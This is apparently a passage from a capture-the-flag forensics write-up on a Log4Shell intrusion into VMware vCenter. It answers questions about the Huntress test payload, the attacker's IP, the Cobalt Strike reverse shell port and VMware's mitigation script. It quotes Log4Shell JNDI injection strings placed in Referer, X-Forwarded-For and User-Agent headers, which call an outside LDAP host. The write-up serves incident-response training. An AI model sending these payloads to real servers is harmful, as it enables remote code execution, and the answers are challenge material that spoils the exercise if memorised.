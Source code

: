 By searching around on google for log4shell exploit through HTTP header I come across a [blog](https://runpanther.io/blog/panthers-guide-to-log4j-exploitation-prevention-and-detection/) using below headers to inject the payload.

```text
Referer=${jndi:ldap://example.com/…}
X-Forwarded-For=${jndi:ldap://example.com/…}
User-Agent=${jndi:ldap://example.com/…}
```

With the hint given in the question, the answer was deduced.

### 12

The attacker used the log4shell.huntress.com payload to detect if vcenter instance is vulnerable. What is the first link of the log4huntress payload?

**log4shell.huntress.com:1389/b1292f3c-a652-4240-8fb4-59c43141f55a**

A search for the keyword “log4shell.huntress.com” is crafted, then found a websso.log in the Result Viewer. From the result viewer the first link of log4shell payload can be found.

### 13

When was the first successful login to vsphere WebClient?

**28/12/2021 20:39:29 UTC**

The login event can be found via VMWare's `audit_events.log` found in the path below via Autopsy.

`C:\Program Files\VMWare\vCenterServer\runtime\VMWareSTSService\logs\audit_events.log`

### 14

What is the attacker's IP address?

**192.168.112.128**

The attacker's ip address can be found via the same `audit_events.log` via Autopsy.

`C:\Program Files\VMWare\vCenterServer\runtime\VMWareSTSService\logs\audit_events.log`

### 15

What is the port the attacker used to receive the cobalt strike reverse shell?

**1337**

Cobalt Strike is usually used with a Base64 encoded PowerShell command. The lowest hanging fruit would be to identify the attack by going through `Microsoft-Windows-PowerShell%4Operational.evtx`. Sure enough a Base64 encoded was found in the logs which decodes to `192.168.112:128:1337`

### 16

What is the script name published by VMware to mitigate log4shell vulnerability?

**vc_log4j_mitigator.py**

By digging on google, VMWare has published a [blog](https://kb.vmware.com/s/article/87081) on mitigating the vulnerability.
